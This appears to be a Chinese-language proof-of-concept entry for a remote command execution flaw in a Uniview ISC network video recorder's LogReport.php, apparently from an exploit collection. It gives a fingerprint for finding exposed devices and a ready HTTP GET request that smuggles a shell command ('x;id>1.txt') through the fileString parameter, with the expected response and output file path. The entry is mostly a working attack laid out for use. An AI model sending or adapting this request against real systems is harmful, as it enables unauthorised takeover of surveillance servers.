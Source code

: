 ﻿# 浙江宇视科技ISC LogReport.php 远程命令执行漏洞

> 更新时间：2023-12-18

> 漏洞编号：

> 漏洞说明：浙江宇视科技 网络视频录像机系统存在远程代码执行漏洞,攻击者通过漏洞可以获取服务器权限。

> 漏洞特征：title=="ISC5000-E"

> 验证脚本：HTTP

```
GET /Interface/LogReport/LogReport.php?action=execUpdate&fileString=x%3bid%3e1.txt HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/Interface/LogReport/1.txt


> 验证文件来源：浙江宇视科技ISC LogReport.php 远程命令执行漏洞.poc

